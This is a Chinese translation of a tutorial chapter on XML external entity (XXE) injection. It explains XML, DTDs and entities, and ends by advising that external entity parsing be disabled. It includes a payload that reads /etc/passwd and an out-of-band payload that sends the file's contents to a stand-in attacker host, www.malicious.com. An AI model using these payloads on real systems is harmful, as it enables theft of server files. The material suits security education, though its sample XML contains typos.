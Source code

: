 ## **0x10-XML 外部實體注入**
>作者：Peter Yaworski
>
>譯者：飛龍
>
>協議：CC BY-NC-SA 4.0

XML 外部實體（XXE）漏洞涉及利用應用解析 XML 輸入的方式，更具體來說，應用程序處理輸入中外部實體的包含方式。為了完全理解理解如何利用，以及他的潛力。我覺得我們最好首先理解什麽是 XML 和外部實體。
`<p>`
元語言是用於描述其它語言的語言，這就是 XML。它在 HTML 之後開發，來彌補 HTML 的不足。HTML 用於定義數據的展示，專註於它應該是什麽樣子。房子，XML 用於定義數據如何被組織。
<p>

例如，HTML 中，你的標簽為`<title>`, `<h1>`, `<table>`, `<p>`，以及其它。這些東西都用於定義內容如何展示。`<title>`用於定義頁面的標題，`<h1>`標簽定義了標題，`<table>`標簽按行和列展示數據，並且`<p>`表示為簡單文本。反之，XML 沒有預定義的標簽。創建 XML 文檔的人可以定義它們自己的標簽，來描述展示的內容。這裏是一個示例。
<p>

```xml
<?xml version="1.0" encoding="UTF-8"?>
<jobs>
    <job>
        <title>Hacker</title>
        <compensation>1000000</compensation>
        <responsibility optional="1">Shot the web</responsibility>
    </job>
</jobs>
```
讀完了之後，你可以大致猜測出 XML 文檔的目的 -- 為了展示職位列表，但是如果它在 Web 頁面上展示，你不知道它看起來是什麽樣。XML 的第一行是一個聲明頭部，表示 XML 的版本，以及編碼類型。在編寫此文的時候，XML 有兩個版本，1.0 和 1.1。它們的具體區別超出了本書範圍，因為它們在你滲透的時候沒什麽影響。
<p>

在初始的頭部之後，標簽`<jobs>`位於所有其它`<job>`標簽的外面。`<job>`又包含`<title>`、`<compensation>`和`<responsibilities>`標簽。現在如果是 HTML，一些標簽並不需要（但最好有）閉合標簽（例如`<br>`），但是所有 XML 標簽都需要閉合標簽。同樣，選取上面的例子，`<jobs>`是個起始標簽，`</jobs>`是對應的閉合標簽。此外，每個標簽都有名稱，並且可以擁有屬性。使用標簽`<job>`，標簽名稱就是job，但是沒有屬性。另一方面，`<responsibility>`擁有名稱`responsibility`，並擁有屬性`optional`，由屬性名稱`optional`和值`1`組成。
<p>

由於任何人可以定義任何標簽，問題就來了，如果標簽可以是任何東西，任何一個人如何知道如何解析和使用 XML 文檔？好吧，一個有效的 XML 文檔之所以有效，是因為它遵循了 XML 的通用規則（我不需要列出它們，但是擁有閉合標簽是一個前面提過的例子），並且它匹配了它的文檔類型定義（DTD）。DTD 是我們繼續深入的全部原因，因為它是允許我們作為黑客利用它的一個東西。
<p>

XML DTD 就像是所使用的標簽的定義文檔，並且由 XML 設計者或作者開發。使用上面的例子，我就是設計者，因為我在 XML 中定義了職位文檔。DTD 定義了存在什麽標簽，它們擁有什麽屬性，以及其它元素裏面有什麽元素，以及其他。當你或者我創建自己的 DTD 時，一些已經格式化了，並且廣泛用於 RSS、RDF、HL7 SGML/XML。以及其它。
<p>

下面是 DTD 文件的樣子，它用於我的 XML。

```xml
<!ELEMENT Jobs (Job)*>
<!ELEMENT Job (Title, Compensation, Responsiblity)>
<!ELEMENT Title (#PCDATA)>
<!ELEMENT Compenstaion (#PCDATA)>
<!ELEMENT Responsibility(#PCDATA)>
<!ATTLIST Responsibility optional CDATA "0">
```

看一看這個，你可能猜到了它大部分是啥意思。我們的`jobs`標簽實際上是 XML `!ELEMENT`，並且可以包含job元素。`job`是個`!ELEMENT`，可以包含標題、薪資和職責，這些也都是`!ELEMENT`，並且只能包含字符數據（`#PCDATA`）。最後，`!ELEMENT responsibility`擁有一個可選屬性（`!ATTLIST`），默認值為 0。

並不是很難吧？除了 DTD，還有兩種還未討論的重要標簽，`!DOCTYPE`和`!ENTITY`。到現在為止，我只說了 DTD 文件是我們 XML 的擴展。要記住上面的第一個例子，XML 文檔並不包含標簽定義，它由我們第二個例子的 DTD 來完成。但是，我們可以將 DTD 包含在 XML 文檔內，並且這樣做之後， XML 的第一行必須是`<!DOCTYPE>`元素。將我們的兩個例子組合起來，我們就會得到這樣的文檔：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE Jobs [
<!ELEMENT Job (Title, Compensation, Responsiblity)>
<!ELEMENT Title (#PCDATA)> <!ELEMENT Compenstaion (#PCDATA)>
<!ELEMENT Responsibility(#PCDATA)>
<!ATTLIST Responsibility optional CDATA "0">
]>
<jobs>
    <job>
        <title>Hacker</title>
        <compensation>1000000</compensation>
        <responsibility optional="1">Shot the web</responsibility>
    </job>
</jobs>
```

這裏，我們擁有了內部 DTD 聲明。要註意我們仍然使用一個聲明頭部開始，表示我們的文檔遵循 XML 1.0 和 UTF8 編碼。但是之後，我們為 XML 定義了要遵循的`DOCTYPE`。使用外部 DTD 是類似的，除了`!DOCTYPE是<!DOCTYPE note SYSTEM "jobs.dtd">`。XML 解析器在解析 XML 文件時，之後會解析`jobs.dtd`的內容。這非常重要，因為`!ENTITY`標簽被近似處理，並且是我們利用的關鍵。

XML 實體像是一個信息的占位符。再次使用我們之前的例子。，如果我們想讓每個職位都包含到我們網站的鏈接，每次都編寫地址簡直太麻煩了，尤其是 URL 可能改變的時候。反之，我們可以使用`!ENTITY`，並且讓解析器在解析時獲取內容，並插入到文檔中。你可以看看我們在哪裏這樣做。

與外部 DTD 文檔類似，我們可以更新我們的 XML 文檔來包含這個想法：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE Jobs [
<!ELEMENT Job (Title, Compensation, Responsiblity, Website)>
<!ELEMENT Title (#PCDATA)> <!ELEMENT Compenstaion (#PCDATA)>
<!ELEMENT Responsibility(#PCDATA)>
<!ATTLIST Responsibility optional CDATA "0">
<!ELEMENT Website ANY>
<!ENTITY url SYSTEM "website.txt">
]>

<jobs>
    <job>
        <title>Hacker</title>
        <compensation>1000000</compensation>
        <responsibility optional="1">Shot the web</responsibility>
        <website>&url;</website>
    </job>
</jobs>
```


這裏你會註意到，我繼續並添加了`Website`的`!ELEMENT`，但是不是`#PCDATA`，而是`ANY`。這意味著`Website`可以包含任何可解析的數據組合。我也定義了一個`!ENTITY`，帶有`SYSTEM`屬性，告訴解析器獲取`wensite.txt`文件的數據。現在一切都清楚了。
<p>

將它們放到一起，如果我包含了`/etc/passwd`，而不是`website.txt`，你覺得會發生什麽？你可能戶菜刀，我們的 XML 會被解析，並且服務器敏感文件`/etc/passwd`的內容會包含進我們的內容。但是我們是 XML 的作者，所以為什麽要這麽做呢？
<p>

好吧。當受害者的應用可以濫用，在 XML 的解析中包含這種外部實體時，XXE 攻擊就發生了。換句話說，應用有一些 XML 預期，但是在接收時卻不驗證它。所以，只是解析他所得到的東西。例如，假設我正在運行一個職位公告板，並允許你註冊並通過 XML 上傳職位。開發我的應用時，我可能使我的 DTD 文件可以被你訪問，並且假設你提交了符合需求的文件。我沒有意識到它的危險，決定天真地解析收到的內容，並沒有任何驗證。但是作為一個黑客，你決定提交：

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<foo>&xxe;</foo>
```

就像你現在了解的那樣，當這個文件被解析時，我的解析器會收到它，並且看到內部 DTD 定義了`foo`文檔類型，告訴它`foo`可以包含任何可解析的數據，並且有個`!ENTITY xxe`，它應該讀取我的`/etc/passwd`文件（`file://`的用法表示/etc/passwd的完整的文件 URL 路徑），並會將&xxe;替換為這個文件的內容。之後你以定義<foo>標簽的有效 XML 結束了它，這會打印出我的服務器數據。這就是 XXE 危險的原因。
<p>

但是等一下，還有更多的東西。如果應用不打印出回應，而是僅僅解析你的內容會怎麽樣？使用上面的例子，內容會解析但是永遠不會反回給我們。好吧，如果我們不包含本地文件，而是打算和惡意服務器通信會怎麽樣？像是這樣：

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "file:///etc/passwd" >
<!ENTITY callhome SYSTEM "www.malicious.com/?%xxe;">
]>
<foo>&callhome;</foo>
```

在解釋它之前，你可能已經註意到我在`callhome` URL 中使用了`%`來代替`&`，`%xxe`。這是因為`%`用於實體在 DTD 定義內部被求值的情況，而`&`用於實體在 XML 文檔中被求值的情況。現在，當 XML 文檔被解析，`callhome !ENTITY`會讀取`/etc/passwd`的內容，並遠程調用`http://www.malicous.com`，將文件內容作為 URL 參數來發送，因為我們控制了該服務器，我們可以檢查我們的日志，並且足夠確保擁有了/etc/passwd的內容。Web 應用的遊戲就結束了。

所以，站點如何防範 XXE 漏洞？它們可以禁止解析任何外部實體。

>鏈接
>
>查看 [OWASP 外部實體（XXE）解析](https://www.owasp.org/index.php/XML_External_Entity_(XXE)  Processing)
>
>[XXE 速查表](http://www.silentrobots.com/blog/2014/09/02/xe-cheatsheet)